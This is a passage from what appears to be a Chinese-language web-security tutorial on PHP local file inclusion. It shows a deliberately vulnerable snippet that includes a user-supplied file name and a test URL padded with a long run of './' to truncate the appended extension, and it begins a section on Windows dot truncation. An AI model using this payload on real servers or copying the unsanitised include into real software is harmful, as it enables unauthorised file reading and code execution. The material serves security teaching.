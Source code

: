 ### 示例代码

```php
<?php
	$file=$_GET['file'];
	include ($file.".html");
?>
```

### 测试结果

输入测试以下代码：

```cmake
http://www.abc.com/xxx/file.php?file=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```

执行后发现已经成功截断了后面的拓展名

## 点号截断文件包含

### 漏洞利用条件

点号截断包含**只使用与Windows系统**，点号的长度大于256B的时候，就可以造成拓展名截断

### 示例代码

```php
<?php
	$file=$_GET['file'];
	include ($file.".html");
?>
```
